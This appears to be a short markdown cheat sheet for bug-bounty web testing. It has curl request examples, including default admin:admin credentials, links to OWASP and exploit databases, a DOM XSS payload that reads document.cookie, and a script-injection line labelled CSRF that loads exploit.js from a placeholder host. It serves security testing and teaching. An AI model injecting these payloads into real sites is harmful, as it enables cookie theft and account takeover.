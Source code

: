 # Bug Bounty

Overview
---------
1. - [Web Requests](#1---web-requests)
2. - [Online Resources](#2---online-resources)
3. - [Sensitive Data Exposure](#3---sensitive-data-exposure)
4. - [HTML Injection](#4---html-injection)
5. - [Cross-Site Scripting (XSS)](#5---cross-site-scripting-xss)
6. - [Cross-Site Request Forgery (CSRF)](#6---cross-site-request-forgery-csrf)
7. - [Exploit Research](#7---exploit-research)

   
#1. - Web Requests
-----------------------------------------

- Curl

```
$ curl -v <URL>
$ curl -I <URL>
$ curl -i <URL>
$ curl -v -X OPTIONS <URL>
$ curl -u admin:admin <URL>
$ curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' <URL>
$ curl <URL>/search.php?search=test
$ curl -X POST -d 'username=admin&password=admin' <URL>
$ curl -X POST -d '{"search":"test"}' -H 'Content-Type: application/json' <URL>
$ curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' <URL>
$ curl -H 'Cookie: PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' <URL>
```

- DevTools

```
F12
```

#2. - Online Resources
-----------------------------------------

- OWASP Web Security Testing Guide

```
https://owasp.org/www-project-web-security-testing-guide/
https://github.com/OWASP/wstg/tree/master/document/4-Web_Application_Security_Testing
```

- HTML - CSS - JS Online Editor

```
https://html-css-js.com/
```

- HTML WYSIWYG Online Editor

```
https://htmlg.com/html-editor/
```

- JSFiddle Code Playground

```
https://jsfiddle.net/
```

#3. - Sensitive Data Exposure
-----------------------------------------

- Source Code

```
Right-click -> View page source
OR
CTRL + U
```

#4. - HTML Injection
-----------------------------------------

- Hyperlink

```
<a href="http://www.google.com">Click Me</a>
```

#5. - Cross-Site Scripting (XSS)
-----------------------------------------

*Reflected XSS	= Occurs when user input is displayed on the page after processing (e.g., search result or error message).*

*Stored XSS = Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).*

*DOM XSS	= Occurs when user input is directly shown in the browser and is written to an HTML DOM object (e.g., vulnerable username or page title).*

- DOM XSS

```
#"><img src=/ onerror=alert(document.cookie)>
```

#6. - Cross-Site Request Forgery (CSRF)
-----------------------------------------

- Password Change

```
"><script src=//www.example.com/exploit.js></script>
```

#7. - Exploit Research
-----------------------------------------

- CVEdetails

```
https://www.cvedetails.com/
```

- Exploit DB

```
https://www.exploit-db.com/
```

- Vulners

```
https://vulners.com/
```

- Rapid7

```
https://www.rapid7.com/db/
```

- Vulnerability Lab

```
https://www.vulnerability-lab.com/
```

- Packet Storm Security

```
https://packetstormsecurity.com/
```
